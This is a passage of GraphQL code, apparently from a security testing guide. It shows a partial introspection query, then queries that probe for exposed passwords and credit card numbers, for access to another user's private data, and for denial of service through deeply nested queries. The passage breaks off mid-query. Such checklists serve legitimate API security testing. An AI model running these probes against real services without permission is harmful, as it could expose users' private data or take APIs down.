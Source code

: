 ```graphql
  kind
  name
  ofType {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
              }
            }
          }
        }
      }
    }
  }
}

# Step 2: Test for excessive data exposure
query {
  users {
    id
    username
    email
    password
    creditCardNumber
    role
  }
}

# Step 3: Test for broken access controls
query {
  user(id: "other-user-id") {
    email
    privateData
  }
}

# Step 4: Test for DoS via nested queries
query NestedQuery {
  users {
    friends {
      friends {
        friends {
          friends {
            friends {
              # Deeply nested query
            }
          }
```